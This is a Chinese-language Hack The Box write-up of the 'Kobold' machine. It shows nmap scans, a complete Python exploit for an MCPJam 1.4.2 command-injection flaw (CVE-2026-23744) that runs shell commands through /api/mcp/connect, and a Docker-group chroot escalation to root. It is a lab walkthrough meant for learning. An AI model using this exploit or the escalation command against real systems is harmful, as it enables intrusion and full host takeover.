







端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HTB/kobold] └─$ sudo nmap --min-rate 3000 -p- kobold.htb -oA ports Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 19:39 CST Nmap scan report for kobold.htb Host is up (0.076s latency). Not shown: 65531 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 443/tcp open https 3552/tcp open taserver Nmap done : 1 IP address (1 host up) scanned in 27.26 seconds
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 ┌──(kali㉿kali)-[~/HTB/kobold] └─$ sudo nmap -sT -sC -sV -p 80,443,3552 kobold.htb -oA details Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 19:43 CST Nmap scan report for kobold.htb Host is up (0.073s latency). PORT STATE SERVICE VERSION 80/tcp open http nginx 1.24.0 (Ubuntu) |_http-title: Did not follow redirect to https://kobold.htb/ |_http-server-header: nginx/1.24.0 (Ubuntu) 443/tcp open ssl/http nginx 1.24.0 (Ubuntu) | ssl-cert: Subject: commonName=kobold.htb | Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb | Not valid before: 2026-03-15T15:08:55 |_Not valid after: 2125-02-19T15:08:55 |_ssl-date : TLS randomness does not represent time |_http-title: Kobold Operations Suite |_http-server-header: nginx/1.24.0 (Ubuntu) | tls-alpn: | http/1.1 | http/1.0 |_ http/0.9 3552/tcp open http Golang net/http server |_http-title: Site doesn't have a title (text/html; charset=utf-8). | fingerprint-strings: | GenericLines: | HTTP/1.1 400 Bad Request | Content-Type: text/plain; charset=utf-8 | Connection: close | Request | GetRequest: | HTTP/1.0 200 OK | Accept-Ranges: bytes | Cache-Control: no-cache, no-store, must-revalidate | Content-Length: 2081 | Content-Type: text/html; charset=utf-8 | Expires: 0 | Pragma: no-cache | Date: Mon, 23 Mar 2026 11:43:14 GMT | <!doctype html> | <html lang="%lang%"> | <head> | <meta charset="utf-8" /> | <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" /> | <meta http-equiv="Pragma" content="no-cache" /> | <meta http-equiv="Expires" content="0" /> | <link rel="icon" href="/api/app-images/favicon" /> | <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" /> | <link rel="manifest" href="/app.webmanifest" /> | <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" /> | <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" /> | <link rel="modu | HTTPOptions: | HTTP/1.0 200 OK | Accept-Ranges: bytes | Cache-Control: no-cache, no-store, must-revalidate | Content-Length: 2081 | Content-Type: text/html; charset=utf-8 | Expires: 0 | Pragma: no-cache | Date: Mon, 23 Mar 2026 11:43:15 GMT | <!doctype html> | <html lang="%lang%"> | <head> | <meta charset="utf-8" /> | <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" /> | <meta http-equiv="Pragma" content="no-cache" /> | <meta http-equiv="Expires" content="0" /> | <link rel="icon" href="/api/app-images/favicon" /> | <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" /> | <link rel="manifest" href="/app.webmanifest" /> | <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" /> | <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" /> |_ <link rel="modu
web 渗透 看上去 443 和 3552 都是 web 服务，先尝试访问了 443 ，没有什么有用的信息，尝试访问 3552 ：

上面有一个 github 的链接，指示的是该网站的应用及其版本，是 Arcane 1.13.0 ，网上搜索是否存在已知漏洞，发现了 CVE-2026-23520 1.13.0 之前，我们这里的版本似乎不匹配。
于是我爆破了子域名，爆破出了如下的一些结果：

有 mcp.kobold.htb 和 bin.kobold.htb ，去 mcp.kobold.htb 查看，发现是 MCPJam 1.4.2 ，在网上搜索已知漏洞，发现存在 CVE-2026-23744
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 import subprocessimport timeimport requestsimport osimport signalimport sysdef reproduce (target_ip, command ): print (f"[*] Waiting for server to start on port 6274..." ) start_time = time.time() server_ready = False while time.time() - start_time < 30 : try : response = requests.get(f"https://{target_ip} " , verify=False ) if response.status_code == 200 : server_ready = True break except requests.exceptions.ConnectionError: time.sleep(1 ) continue if not server_ready: print ("[!] Server failed to start in time." ) return print ("[+] Server is up and running." ) print ("[*] Sending exploit payload..." ) exploit_url = f"https://{target_ip} /api/mcp/connect" cmd = "sh" args = ["-c" , command] payload = { "serverConfig" : { "command" : cmd, "args" : args, "env" : { "DISPLAY" : os.environ.get("DISPLAY" , ":0" ) } }, "serverId" : "rce_test" } try : response = requests.post(exploit_url, json=payload, verify = False ) print (f"[*] Server responded: {response.status_code} " ) print (f"[*] Response body: {response.text} " ) except Exception as e: print (f"[*] Request failed (this might be expected if the command execution interrupts the connection): {e} " ) print ("[+] Payload sent." ) if __name__ == "__main__" : if len (sys.argv) != 3 : print (f"Usage: {sys.argv[0 ]} <target_ip> 'id > /tmp/mcpjam_pwned.txt'" ) print (f"Usage: {sys.argv[0 ]} <target_ip> 'xcalc'" ) sys.exit(1 ) target_ip = sys.argv[1 ] command = sys.argv[2 ] reproduce(target_ip, command)
使用 sleep 5 进行测试，发现存在命令执行，那就进行反弹 shell ：

拿到了 ben 用户的 shell 和 user flag。
提权 在靶机内收集信息，进行 ps aux ：

看到了一个比较有用的点，就是靶机内正在跑 docker 。
我们目前所属的组没有 docker 组：

但经过测试发现，我们可以用 sg docker 来移动到 docker 组里：

sg 命令用于切换到一个组内执行一些操作，它和 newgrp 差不多。
于是我们就可以使用 docker 组来进行提权了，这篇文章 比较详细地介绍了 docker 组的提权方法，我们使用 GTFObins
1 docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh

拿到了 root flag。
PS 在 sg 的手册网站 /etc/passwd /etc/shadow /etc/group /etc/gshadow 来看你的操作应该怎么进行。
我读取了 /etc/group 内容如下，里面写的是 docker 组只有 alice 一个用户：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 root:x:0: daemon:x:1: bin:x:2: sys:x:3: adm:x:4:syslog tty :x:5:disk:x:6: lp:x:7: mail:x:8: news:x:9: uucp:x:10: man:x:12: proxy:x:13: kmem:x:15: dialout:x:20: fax:x:21: voice:x:22: cdrom:x:24: floppy:x:25: tape:x:26: sudo :x:27:audio:x:29: dip:x:30: www-data:x:33: backup:x:34: operator:x:37:ben,alice list:x:38: irc:x:39: src:x:40: shadow:x:42: utmp:x:43: video:x:44: sasl:x:45: plugdev:x:46: staff:x:50: games:x:60: users :x:100:nogroup:x:65534: systemd-journal:x:999: systemd-network:x:998: systemd-timesync:x:997: input:x:996: sgx:x:995: kvm:x:994: render:x:993: lxd:x:101: messagebus:x:102: systemd-resolve:x:992: _ssh:x:103: polkitd:x:991: crontab:x:990: syslog:x:104: uuidd:x:105: rdma:x:106: tcpdump:x:107: tss:x:108: landscape:x:109: fwupd-refresh:x:989: ben:x:1001: ssl-cert:x:110: docker:x:111:alice alice:x:1002: netdev:x:112: _laurel:x:988:
但拿到 root 之后，我读取了 /etc/gshadow ，里面写着 docker 组里面有 ben 和 alice：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 root:*:: daemon:*:: bin:*:: sys:*:: adm:*::syslog tty :*::disk:*:: lp:*:: mail:*:: news:*:: uucp:*:: man:*:: proxy:*:: kmem:*:: dialout:*:: fax:*:: voice:*:: cdrom:*:: floppy:*:: tape:*:: sudo :*::audio:*:: dip:*:: www-data:*::alice backup:*:: operator:*::ben,alice list:*:: irc:*:: src:*:: shadow:*:: utmp:*:: video:*:: sasl:*:: plugdev:*:: staff:*:: games:*:: users :*::nogroup:*:: systemd-journal:!*:: systemd-network:!*:: systemd-timesync:!*:: input:!*:: sgx:!*:: kvm:!*:: render:!*:: lxd:!:: messagebus:!:: systemd-resolve:!*:: _ssh:!:: polkitd:!*:: crontab:!*:: syslog:!:: uuidd:!:: rdma:!:: tcpdump:!:: tss:!:: landscape:!:: fwupd-refresh:!*:: ben:!:: ssl-cert:!:: docker:!::ben,alice alice:!::www-data netdev:!:: _laurel:!::
所以说我们 id 的时候，没看到自己在 docker 组，但是我们 sg docker 就能切换到 docker 组，是因为我们在 docker 组里这个信息被写到了 /etc/gshadow 里面，sg 从中读取了这个信息，从而让我们切换到了 docker 组里。